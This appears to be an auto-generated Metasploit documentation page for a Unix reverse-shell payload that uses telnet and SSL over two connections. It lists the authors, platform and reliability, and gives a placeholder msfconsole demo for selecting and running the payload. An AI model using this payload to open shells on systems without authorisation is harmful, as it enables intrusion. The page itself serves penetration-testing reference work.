 ## Unix Command Shell, Double Reverse TCP SSL (telnet)

Creates an interactive shell through two inbound 
connections, encrypts using SSL via "-z" option


## Module Name
payload/cmd/unix/reverse_ssl_double_telnet

## Authors
* hdm
* RageLtMan





## Platforms
unix

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/cmd/unix/reverse_ssl_double_telnet
msf payload(reverse_ssl_double_telnet) > show targets
   ... a list of targets ...
msf payload(reverse_ssl_double_telnet) > set TARGET <target-id>
msf payload(reverse_ssl_double_telnet) > show options
   ... show and set options ...
msf payload(reverse_ssl_double_telnet) > run
```
    
    